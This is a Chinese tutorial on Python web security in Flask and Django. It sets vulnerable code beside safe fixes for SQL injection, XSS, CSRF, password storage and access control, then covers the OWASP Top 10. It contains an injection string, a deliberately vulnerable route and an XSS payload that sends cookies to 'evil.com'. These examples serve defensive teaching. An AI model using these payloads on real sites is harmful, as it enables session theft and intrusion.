

# Python Web安全

在构建Web应用时，安全性是不可忽视的关键环节。无论你是使用Django、Flask还是FastAPI等Python Web框架开发应用，了解并实施适当的安全措施都至关重要。本文将带你探索Python Web开发中的安全挑战、常见漏洞以及防御策略。

## 为什么Web安全很重要？

Web应用暴露在互联网上，面临着多种安全威胁：

- 数据泄露可能导致用户隐私被侵犯
- 服务中断会影响业务运营
- 系统被黑可能造成声誉损失和法律问题
- 安全漏洞可能导致财务损失

:::warning
根据最新研究，超过43%的网络攻击针对小型企业和个人开发的网站，而非大型企业，因为它们往往安全措施不足。
:::

## Python Web应用常见安全漏洞与防护措施

### 1. SQL注入攻击

SQL注入是最常见的攻击之一，攻击者通过构造特殊的输入使SQL查询执行非预期操作。

#### 有风险的代码：

```python
# 危险：直接拼接SQL语句
username = request.form['username']
query = "SELECT * FROM users WHERE username = '" + username + "'"
results = db.execute(query)
```

如果用户输入 `' OR '1'='1`，查询会变成：
```sql
SELECT * FROM users WHERE username = '' OR '1'='1'
```
这将返回所有用户记录！

#### 安全的做法：

```python
# 安全：使用参数化查询
username = request.form['username']
query = "SELECT * FROM users WHERE username = ?"
results = db.execute(query, (username,))

# 使用ORM (如SQLAlchemy)
user = User.query.filter_by(username=username).first()
```

### 2. 跨站脚本攻击(XSS)

XSS攻击允许攻击者在受害者的浏览器中执行恶意脚本。

#### 有风险的代码：

```python
# Flask中不安全地显示用户输入
@app.route('/profile')
def profile():
    username = request.args.get('username')
    return f'<h1>欢迎, {username}!</h1>'  # 危险：直接插入用户输入
```

如果用户输入 `<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>`，可能导致Cookie被盗。

#### 安全的做法：

```python
# Flask中使用escape过滤用户输入
from markupsafe import escape

@app.route('/profile')
def profile():
    username = request.args.get('username')
    return f'<h1>欢迎, {escape(username)}!</h1>'  # 安全：转义特殊字符
```

在模板引擎中，大多数情况下已自动实现转义：

```html
<!-- Jinja2自动进行HTML转义 -->
<h1>欢迎, {{ username }}</h1>
```

### 3. 跨站请求伪造(CSRF)

CSRF攻击迫使已登录用户在不知情的情况下执行非预期操作。

#### 防护措施：

在Flask中使用CSRFProtect扩展：

```python
from flask_wtf.csrf import CSRFProtect

app = Flask(__name__)
app.config['SECRET_KEY'] = 'hard-to-guess-key'  # 在生产环境中使用强密钥
csrf = CSRFProtect(app)
```

在表单中包含CSRF令牌：

```html
<form method="post">
    <input type="hidden" name="csrf_token" value="{{ csrf_token() }}"/>
    <!-- 表单字段 -->
    <button type="submit">提交</button>
</form>
```

在Django中，CSRF保护是默认启用的：

```html
<form method="post">
    
    <!-- 表单字段 -->
    <button type="submit">提交</button>
</form>
```

### 4. 不安全的密码存储

#### 有风险的做法：

```python
# 危险：明文存储密码
user = User(username='alice', password='password123')
db.session.add(user)
db.session.commit()
```

#### 安全的做法：

使用专门的哈希库，如Werkzeug提供的安全工具：

```python
from werkzeug.security import generate_password_hash, check_password_hash

# 安全：存储密码哈希
password_hash = generate_password_hash('password123')
user = User(username='alice', password=password_hash)
db.session.add(user)
db.session.commit()

# 验证密码
is_valid = check_password_hash(user.password, 'password123')
```

### 5. 敏感数据暴露

#### 防护措施：

1. 使用HTTPS保护传输中的数据
2. 加密存储敏感信息
3. 对API响应进行适当过滤

```python
# Flask路由返回过滤后的用户数据
@app.route('/api/user/<int:user_id>')
def get_user(user_id):
    user = User.query.get_or_404(user_id)
    # 只返回必要信息，不包括密码哈希等敏感数据
    return {
        'id': user.id, 
        'username': user.username,
        'email': user.email
    }
```

### 6. 不当的访问控制

#### 安全的做法：

实施正确的授权检查：

```python
from functools import wraps
from flask import session, redirect, url_for

def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            return redirect(url_for('login'))
        return f(*args, **kwargs)
    return decorated_function

@app.route('/admin/dashboard')
@login_required
def admin_dashboard():
    # 额外的权限检查
    if not current_user.is_admin:
        abort(403)  # 禁止访问
    return render_template('admin/dashboard.html')
```

## 实际案例：构建安全的用户认证系统

下面是一个简单但安全的用户注册和登录系统示例，展示了多种安全实践：

```python
from flask import Flask, request, session, redirect, render_template, flash
from werkzeug.security import generate_password_hash, check_password_hash
from flask_sqlalchemy import SQLAlchemy
from flask_wtf.csrf import CSRFProtect
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(24)  # 生产环境中的随机密钥
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

db = SQLAlchemy(app)
csrf = CSRFProtect(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(200), nullable=False)
    
    def __repr__(self):
        return f'<User {self.username}>'

with app.app_context():
    db.create_all()

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        
        # 输入验证
        if not username or not password:
            flash('请填写所有字段')
            return redirect('/register')
            
        # 检查用户是否已存在
        existing_user = User.query.filter_by(username=username).first()
        if existing_user:
            flash('用户名已存在')
            return redirect('/register')
            
        # 安全地存储密码
        hashed_password = generate_password_hash(password)
        new_user = User(username=username, password=hashed_password)
        db.session.add(new_user)
        db.session.commit()
        
        flash('注册成功！请登录')
        return redirect('/login')
        
    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        
        user = User.query.filter_by(username=username).first()
        
        # 使用常量时间比较防止时序攻击
        if user and check_password_hash(user.password, password):
            session['user_id'] = user.id
            return redirect('/dashboard')
        
        flash('用户名或密码错误')
    
    return render_template('login.html')

@app.route('/dashboard')
def dashboard():
    if 'user_id' not in session:
        return redirect('/login')
    
    user = User.query.get(session['user_id'])
    return render_template('dashboard.html', user=user)

@app.route('/logout')
def logout():
    session.pop('user_id', None)
    return redirect('/login')

if __name__ == '__main__':
    app.run(debug=False)  # 生产环境中禁用调试模式
```

上述代码采用了多种安全实践：
- 随机生成的密钥
- 密码哈希存储
- CSRF保护
- 用户输入验证
- 会话管理
- 安全的密码比较

## Web安全的最佳实践

### 安全配置

1. **不要在代码中硬编码敏感信息**

```python
# 不要这样做
SECRET_KEY = "my_super_secret_key"

# 而是这样
import os
SECRET_KEY = os.environ.get('SECRET_KEY')
```

2. **禁用生产环境中的调试模式**

```python
# 开发环境
app.run(debug=True)

# 生产环境
app.run(debug=False)
```

### 定期更新依赖

使用以下命令查找有安全漏洞的依赖项：

```bash
pip install safety
safety check
```

### 实施内容安全策略(CSP)

```python
@app.after_request
def add_security_headers(response):
    response.headers['Content-Security-Policy'] = "default-src 'self'"
    return response
```

### 使用安全Cookie

```python
app.config.update(
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE='Lax',
)
```

## Python Web框架的安全功能对比



:::tip 框架选择建议
- **Django**: 如果你需要"开箱即用"的安全特性，选择Django
- **Flask/FastAPI**: 如果你需要更多灵活性且愿意自行配置安全措施
:::

## OWASP Top 10与Python防护

OWASP（开放Web应用安全项目）定期发布Top 10 Web应用安全风险列表。这里是针对每个风险的Python防护建议：

1. **注入攻击** - 使用ORM或参数化查询
2. **失效的身份认证** - 使用强密码存储和多因素认证
3. **敏感数据泄露** - 使用HTTPS和正确加密
4. **XML外部实体** - 禁用XML解析器中的外部实体
5. **失效的访问控制** - 实施严格的授权检查
6. **安全配置错误** - 使用安全默认配置，避免暴露错误信息
7. **跨站脚本** - 始终转义用户输入
8. **不安全的反序列化** - 避免序列化用户输入
9. **使用含有已知漏洞的组件** - 定期更新依赖
10. **不足的日志记录和监控** - 实施全面日志记录

## 总结

Web安全是一个持续进行的过程，而非一次性任务。本文介绍的安全措施只是开始，构建真正安全的Web应用需要不断学习和改进。关键要点包括：

- 始终验证和净化用户输入
- 使用参数化查询防止SQL注入
- 实施CSRF保护机制
- 安全地存储密码和敏感数据
- 保持依赖项更新以修复已知漏洞
- 采用最小权限原则实施访问控制
- 使用HTTPS保护数据传输

:::note 记住
安全是整个开发生命周期的组成部分，而不仅仅是最后的考虑因素。
:::

## 练习与挑战

1. 审查你现有的项目代码，找出潜在的SQL注入或XSS漏洞。
2. 为一个简单的Flask或Django应用实现完整的用户认证系统，确保密码安全存储。
3. 使用OWASP ZAP或其他安全测试工具扫描你的Web应用。
4. 实现一个内容安全策略并测试其有效性。

## 附加资源

- [OWASP Python安全项目](https://owasp.org/www-project-python-security/)
- [Flask安全考量文档](https://flask.palletsprojects.com/en/2.0.x/security/)
- [Django安全文档](https://docs.djangoproject.com/en/stable/topics/security/)
- 《Web Application Security: A Beginner's Guide》- Bryan Sullivan
- 《Flask Web开发：基于Python的Web应用开发实战》- Miguel Grinberg

通过关注这些安全原则，你将能够构建更加健壮和安全的Python Web应用，为用户提供更加安全的体验。